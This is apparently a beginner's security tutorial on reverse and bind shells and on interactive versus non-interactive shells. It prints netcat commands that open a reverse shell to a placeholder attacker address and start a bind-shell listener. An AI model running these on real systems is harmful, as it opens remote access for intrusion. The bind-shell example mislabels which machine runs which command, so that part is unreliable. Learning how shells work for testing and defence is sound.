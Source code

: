 


  
Shell - is a used to interface with Command Line environment (CLI). Common **bash** or **sh** in Linux are shells. In Windows they are cmd.exe or Powershell.   
  
 When targeting remote systems it is sometimes possible to force an app running on the server to execute arbitrary code. When this happens, such initial access is used to obtain shell running on the target.  
  
 Types of shells:  
   
 1. Reverse shell - target is forced to execute commands that connects back to your computer.. This process requires to set up a listener which is used t receive connection.   
   
Reverse shells are good way to bypass firewall rules, that may prevent from connecting to arbitrary ports on the target. However the drawback is that when receiving a shell from a machine across the network, personal computer need to be configured in a way that supports accepting such shell.  
  
Example:  
  
Most of reverse shells are obtain in such way. Left picture is a listener - that is what receives the connection. On the right is a simulation of sending a reverse shell (normally it's done by code injection or something similiar). Left is our own computer. Right is target machine.  
  
Code executed on attacking machine:  
  
sudo nc -lvnp 443  
  
Code executed on target:  
  
nc <LOCAL-IP> <PORT> -e /bin/bash  
  
 ![858-1.png](858-1.png)  
  
After running reverse shell on target the listener receives a connection. Most important about this method is to remember that **listening** is on our own computer, and we are sending a command **from** the target.  
  
 2. Bind shell - is when the code executed on a target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can  
 connect to the port that the code has opened and obtain remote code execution that way.   
   
 They are less common, than reverse shell.  
  
 Example:  
   
On left is attacking computer, on right target machine. In this example a Windows target is showed. First task is to start listener on the target with “cmd.exe” which tells to connect to our own machine on completely new port.  
  
Code executed on attacking machine:  
  
nc -lvpn <PORT> -e “cmd.exe”  
  
Code executed on target:  
  
nc MACHINE\_IP <PORT>  
  
![858-2.png](858-2.png)  
  
 Shell are also divided by another category, which is interactivity.  
   
 - interactive - using Poweshell, bash, sh or any other standard CLI environment we are using interactive shell. It allows to interact with programs after executing them. For example a SSH  
 login:  
   
 ![858-3.png](858-3.png)  
  
 Which asks interactively user for answer (Y, N, fingerprint). It's an interactive program which needs interactive shell to run.  
   
 - non-interactive - they limit user to use programs which do not require user interaction in order to run properly. Unfortunately most of simple reverse shells and bind shells anr non-interactive, which make further expoitation harder. Same example of SHH login:  
   
 ![858-4.png](858-4.png)  
   
 “whoami” command which doesn't require user feedback works fine. But SSH which requires user to input login credentials is empty.  
   
 